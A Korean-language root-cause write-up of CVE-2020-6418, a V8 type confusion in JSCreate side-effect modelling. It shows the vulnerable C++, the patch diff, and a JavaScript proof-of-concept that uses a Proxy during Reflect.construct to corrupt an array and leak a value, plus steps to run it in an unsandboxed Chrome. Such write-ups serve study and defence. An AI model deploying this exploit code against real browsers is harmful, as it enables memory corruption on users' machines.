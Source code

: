 # Incorrect side effect modelling for JSCreate in V8

## Information
- CVE : CVE-2020-6418
- 해당 소프트웨어 : Chrome V8
- 해당 버전 : Google Chrome prior to 80.0.3987.122
- 취약점 유형 : TypeConfusion

## Root Cause

### original code
```c++
NodeProperties::InferReceiverMapsResult NodeProperties::InferReceiverMapsUnsafe(
  JSHeapBroker* broker, Node* receiver, Node* effect,
  ZoneHandleSet<Map>* maps_return) {
    ...
    InferReceiverMapsResult result = kReliableReceiverMaps;
    while (true) {
      switch (effect->opcode()) {
      ...
        case IrOpcode::kCheckMaps: {
          Node* const object = GetValueInput(effect, 0);
          if (IsSame(receiver, object)) {
            *maps_return = CheckMapsParametersOf(effect->op()).maps();
            return result;
          }
          break;
        }
        case IrOpcode::kJSCreate: {
          if (IsSame(receiver, effect)) {
            base::Optional<MapRef> initial_map = GetJSCreateMap(broker, receiver);
            if (initial_map.has_value()) {
              *maps_return = ZoneHandleSet<Map>(initial_map->object());
              return result;
            }
            // We reached the allocation of the {receiver}.
            return kNoReceiverMaps;
          }
          break;
        }
      ...  
      }
      // Stop walking the effect chain once we hit the definition of
      // the {receiver} along the {effect}s.
      if (IsSame(receiver, effect)) return kNoReceiverMaps;
      
      // Continue with the next {effect}.
      effect = NodeProperties::GetEffectInput(effect);
    }
}
```
### patched code
```patch
diff --git a/src/compiler/node-properties.cc b/src/compiler/node-properties.cc
index f43a348..ab4ced6 100644
--- a/src/compiler/node-properties.cc
+++ b/src/compiler/node-properties.cc
@@ -386,6 +386,7 @@
           // We reached the allocation of the {receiver}.
           return kNoReceiverMaps;
         }
+        result = kUnreliableReceiverMaps;  // JSCreate can have side-effect.
         break;
       }
       case IrOpcode::kJSCreatePromise: {
```


NodeProperties::InferReceiverMapUnsafe 함수는 컴파일된 함수의 effect chain 역으로 탐색하며 객체가 가질 수 있는 Map을 추론한다. 예를 들어 effect chain에서 CheckMaps 노드를 탐색할 경우 컴파일러에서 해당 객체가 CheckMaps 노드가 원하는 map을 가질 것이라 추론한다. 취약점이 발생하는 JSCreate 노드에서는 JSCreate에서 리시버를 생성할 경우 컴파일러에서 초기 객체의 Map을 해당 리시버의 Map으로 추론한다. 하지만 JSCreate가 리시버와 다른 종류의 객체를 취급할 경우 컴파일러는 리시버의 map이 변경되지 않을 것이라 가정한다. 취약점은 이 부분에서 발생한다. JSCreate가 새로운 타겟의 prototype에 접근할때 Proxy 객체가 이를 가로채 임의의 javascript 코드 실행이 가능해진다.

## PoC
```javascript
const MAX_ITERATIONS = 100000;
const buf = new ArrayBuffer(8);
const f64 = new Float64Array(8);
const u32 = new Uint32Array(buf);
// Floating point to 64-bit unsigned integer
function f2i(val)
{ 
    f64[0] = val;
    let tmp = Array.from(u32);
    return tmp[1] * 0x100000000 + tmp[0];
}
// 64-bit unsigned integer to Floating point
function i2f(val)
{
    let tmp = [];
    tmp[0] = parseInt(val % 0x100000000);
    tmp[1] = parseInt((val - tmp[0]) / 0x100000000);
    u32.set(tmp);
    return f64[0];
}
// 64-bit unsigned integer to hex
function hex(i)
{
    return "0x"+i.toString(16).padStart(16, "0");
}

let a = [1.1, 2.2, 3.3, 4.4, 5.5, 6.6];

function empty() {}

function f(p) {
  return a.pop(Reflect.construct(empty, arguments, p));
}

let p = new Proxy(Object, {
    get: () => {
        //%DebugPrint(a);
        //%SystemBreak();
        a[0] = {};
        //%DebugPrint(a);
        //%SystemBreak();
        return Object.prototype;
    }
});

function main(p) {
  return f(p);
}

%PrepareFunctionForOptimization(empty);
%PrepareFunctionForOptimization(f);
%PrepareFunctionForOptimization(main);

main(empty);
main(empty);
%OptimizeFunctionOnNextCall(main);
print(hex(f2i(main(p))));
```

## How to run exploit?
> OS : Ubuntu 18.04 64bit
> 
> Chrome version : Google Chrome prior to 80.0.3987.122
1) --no-sandbox 옵션으로 크롬 실행
2) exp.js 파일을 로드

## Reference
- [Chrome Bug Tracker](https://bugs.chromium.org/p/chromium/issues/detail?id=1053604)
- [ray-cp github](https://github.com/ray-cp/browser_pwn/tree/master/cve-2020-6418)
- [ray-cp blog](https://ray-cp.github.io/archivers/browser-pwn-cve-2020-6418%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)
- [exodus intel blog](https://blog.exodusintel.com/2020/02/24/a-eulogy-for-patch-gapping/)
- [V8 patch code](https://chromium.googlesource.com/v8/v8/+/fb0a60e15695466621cf65932f9152935d859447)